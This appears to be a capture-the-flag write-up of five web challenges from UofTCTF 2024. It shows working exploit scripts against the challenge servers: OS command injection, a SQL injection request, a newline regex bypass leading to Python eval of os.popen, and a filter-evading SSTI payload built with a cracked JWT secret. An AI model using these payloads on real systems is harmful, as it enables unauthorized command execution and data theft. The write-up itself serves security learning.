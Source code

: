 ```yaml
---
title: "U of T CTF"
date: 2024-01-14 00:08:00 +0800
categories: [Jeopardy-CTF]
tags: [web, ctf, sqli, ssti, python, idor, cmd-injection]
image:
  path: /banners/uoftctf.png
---
```


> Description : he University of Toronto is hosting its second inaugural Capture the Flag competition. It will be jeopardy-style, held online with categories such as Web, Pwn, Rev, Crypto, Misc, and more! There will be plenty of challenges for both beginner and experienced players. The team size is limited to 4 players per team. This competition is organized by UofTCTF, GDSC (UTM), and MCSS (UTM) and sponsored by AON, UofT Department of Computer Science, UofT Information Security and Enterprise Architecture, LetsDefend.io
{: .prompt-info }




| Name       | uoftctf                |
|------------|------------------------|
| URL        | [UofTCTF](https://play.uoftctf.org/), [Ctf-Time](https://ctftime.org/event/2219) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



## 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Solution

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

```bash
❯ echo 'dW9mdGN0ZntZMFVSIFBpdGNoIElTIDcwTyBIITlIfQ==' |base64 -d
uoftctf{Y0UR Pitch IS 70O H!9H}%  
```

## 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

## 3. No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


## 4. Guestbook - Hidden Flag

### Solution

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

## 5.  My First App - JWT / SSTI
### Solution
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
  PY:

  ```python
  #!/usr/bin/env python3
import jwt
import requests
from bs4 import BeautifulSoup

secret_key = 'torontobluejays'
username = """
{{lipsum|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))(request.referrer.split().pop(2))|attr(request.referrer.split().pop(3))(request.referrer.split().pop(4))|attr(request.referrer.split().pop(5))()}}
"""
pay = """__globals__ __getitem__ os popen cat${IFS}flag.txt read """


def genJWT(username):
    payload = {
        "username": username,
}
    token = jwt.encode(payload, secret_key, algorithm='HS256')
    return token


jwt_token = genJWT(username)
print(jwt_token)

url = "https://uoftctf-my-first-app.chals.io:443/?test="
cookies = {"auth_token": jwt_token}

headers = {"referer": pay}
response = requests.get(url,headers=headers, cookies=cookies)
#response = requests.get(url,headers=headers, cookies=cookies, proxies=proxies)
cont = response.text


s = BeautifulSoup(cont, 'html.parser')
cov = s.find('div', class_='container')

if cov:
    print(cov.prettify())
else:
    print(cont)
```
